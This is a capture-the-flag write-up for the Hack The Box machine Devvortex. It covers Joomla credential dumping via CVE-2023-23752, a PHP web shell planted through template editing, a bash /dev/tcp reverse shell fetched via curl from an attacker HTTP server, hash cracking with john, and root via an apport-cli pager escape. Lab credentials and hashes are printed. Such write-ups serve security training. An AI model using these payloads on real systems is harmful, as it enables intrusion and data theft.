# Target : 10.10.11.242 aka devvortex.htb

# Reconnaissance (aka intelligence)

## 1. Scan ports

```
└─$ nmap -sV -A -p 80,22 10.10.11.242
Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-03 05:11 EST
Nmap scan report for 10.10.11.242
Host is up (0.10s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://devvortex.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.33 seconds


```

## 2. Check 80 port in browser



## 3. Enumerate directories and files

```
└─$ gobuster dir -u http://devvortex.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://devvortex.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 178] [--> http://devvortex.htb/css/]
/images               (Status: 301) [Size: 178] [--> http://devvortex.htb/images/]
/index.html           (Status: 200) [Size: 18048]
/js                   (Status: 301) [Size: 178] [--> http://devvortex.htb/js/]
Progress: 4723 / 4724 (99.98%)
===============================================================
Finished
===============================================================

```

Nothing interesting. Well, let's try to sort out the virtual hosts

## 4. Enumerate vhosts

Run gobuster with parameter **vhost** parameter **--apend-domain** and wordlist **subdomains-top1million-5000.txt**
```
└─$ gobuster vhost -u devvortex.htb -r -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 20 --append-domain
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://devvortex.htb
[+] Method:          GET
[+] Threads:         20
[+] Wordlist:        /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: dev.devvortex.htb Status: 200 [Size: 23221]
Progress: 4989 / 4990 (99.98%)
===============================================================
Finished
===============================================================
```

And we find virtual host dev.devvortex.htb

**change /etc/hosts for access this domain**

## 5. Go to this vhost with browser



We see the some web-app

Try to enumerating this site



Find **/administrator** url. This is Joomla administrator panel.

You can find out the version of Joomla and look for public exploits.

```
We also find robots.txt

# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
# eg the Disallow rule for the /administrator/ folder MUST
# be changed to read
# Disallow: /joomla/administrator/
#
# For more information about the robots.txt standard, see:
# https://www.robotstxt.org/orig.html

User-agent: *
Disallow: /administrator/
Disallow: /api/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```

Later we make sure that all the URLs that we found coincide with the **robots.txt** file

```
└─$ dirb http://dev.devvortex.htb

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Dec  7 15:03:24 2023
URL_BASE: http://dev.devvortex.htb/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://dev.devvortex.htb/ ----
==> DIRECTORY: http://dev.devvortex.htb/administrator/                                                                                                            
==> DIRECTORY: http://dev.devvortex.htb/api/                                                                                                                      
==> DIRECTORY: http://dev.devvortex.htb/cache/                                                                                                                    
==> DIRECTORY: http://dev.devvortex.htb/components/                                                                                                               
+ http://dev.devvortex.htb/home (CODE:200|SIZE:23221)                                                                                                             
==> DIRECTORY: http://dev.devvortex.htb/images/                                                                                                                   
==> DIRECTORY: http://dev.devvortex.htb/includes/                                                                                                                 
+ http://dev.devvortex.htb/index.php (CODE:200|SIZE:23221)                                                                                                        
==> DIRECTORY: http://dev.devvortex.htb/language/                                                                                                                 
==> DIRECTORY: http://dev.devvortex.htb/layouts/                                                                                                                  
==> DIRECTORY: http://dev.devvortex.htb/libraries/                                                                                                                
==> DIRECTORY: http://dev.devvortex.htb/media/                                                                                                                    
==> DIRECTORY: http://dev.devvortex.htb/modules/                                                                                                                  
==> DIRECTORY: http://dev.devvortex.htb/plugins/                                                                                                                  
+ http://dev.devvortex.htb/robots.txt (CODE:200|SIZE:764)                                                                                                         
==> DIRECTORY: http://dev.devvortex.htb/templates/                                                                                                                
==> DIRECTORY: http://dev.devvortex.htb/tmp/  
```

## 6. Further we find script in metasploit for getting Joomla version

Run metasploit database

```
sudo msfdb start
```
Run metasploit

```
sudo msfconsole
```

Search scripts for getting Joomla version
```

msf6 > search joomla

```
Use auxiliary and set parameters

```
msf6 > use auxiliary/scanner/http/joomla_version

msf6 auxiliary(scanner/http/joomla_version) > show options

Module options (auxiliary/scanner/http/joomla_version):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the Joomla application
   THREADS    1                yes       The number of concurrent threads (max one per host)
   VHOST                       no        HTTP server virtual host

msf6 auxiliary(scanner/http/joomla_version) > set RHOSTS 10.10.11.242
RHOSTS => 10.10.11.242
msf6 auxiliary(scanner/http/joomla_version) > set VHOST dev.devvortex.htb
VHOST => dev.devvortex.htb

```
Run script and getting version

```
msf6 auxiliary(scanner/http/joomla_version) > run

[*] Server: nginx/1.18.0 (Ubuntu)
[+] Joomla version: 4.2.6
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

## 7. Find version Joomla CMS **4.2.6**

Looking for public exploits for this version Joomla in google and find fresh vulnerability CVE-2023-23752. 
We are also looking for an exploit and find this PoC https://github.com/adhikara13/CVE-2023-23752


# Initial access and exploitation 

## 8. Read exploit docs and run this script

```

└─$ python3 CVE-2023-23752.py -u dev.devvortex.htb -o dump.txt
[+] => Vulnerable dev.devvortex.htb
User: lewis Password: P4ntherg0t1n5r3c0n## Database: joomla
File Saved => dump.txt

```

This vulnerability allows you to dump the Joomla administrator password and save in dump.txt file.

## 9. Go to administration panel and sign in



And we went to the admin panel

Next, we need to somehow upload the web shell, namely a PHP file since Joomla is written in PHP.

Search in google exploitation technique for upload web shell in Joomla and find templates method.
Go to System => Sites Templates =>  Cassiopeia Details and Files
and click New File



## 10. Create new php file and write simple php web-shell

```php
<?php system($_GET["cmd"]); ?>
```



And later click Save and close



Go to url for our payload ave.php and check command execution.
We have a webshell access but we need full shell access

## 11. Run reverse shell with reverse(stager) run method.

Create directory www and create a file with this content

```bash

bash -i >& /dev/tcp/10.10.14.187/9001 0>&1

```
**Don't forget to change it to yours ip for HTB vpn**

```

Execute this directory this command for run simple http server

└─$ python3 -m http.server                                    
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

```
This is necessary to download the shell script with our reverse shell payload.

## 12. Run reverse shell

Let's intercept the web shell command with a burp and enter a command there to download and launch our reverse shell
through the curl command with redirecting the output to standard input in the bash interpreter



```

└─$ python3 -m http.server                                    
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.242 - - [07/Dec/2023 16:13:12] "GET /shell.sh HTTP/1.1" 200 -

```
Our stager download to system and execute with bash and we have a shell




# Postexploitation and Privilage escalation

## 13. Check interesting files

Go to path joomla database config and finded creds for database



## 14. Connect to mysql

Connect to mysql and show databases

```sql
mysql> show databases;
mysql> use joomla;
mysql> show tables;
mysql> select username,password from sd4fg_users;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| lewis    | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan    | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+----------+--------------------------------------------------------------+
2 rows in set (0.00 sec)

```
We have 2 hashes our use lewis and unknown user logan.

Copy he hash and save to file john.hash for John the Ripper brutforce attack

## 15. Brutforcing hash with john

```

john --wordlist=/usr/share/wordlists/rockyou.txt john.hash 

```


We have a password for user logan

## 16. Connect with ssh or su

Connect to server with ssh as user logan

Show sudo permissions execute command

```bash
logan@devvortex:~$ sudo -l
Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

And see full sudo permisson for unknown utilities apport-cli.

Search information how privilage escalation with this utilities and find this method.

see this utility and find CVE for local privilage escalation

https://github.com/diego-tella/CVE-2023-1326-PoC

with command 

```bash
sudo apport-cli -p ssh -f rep.crash --save rep.crash /usr/sbin/sshd
```

create another some crash file and run command of exploit

```bash
sudo /usr/bin/apport-cli -c /tmp/rep.crash
press V (view report)
!/bin/bash
```



And we have a root shell!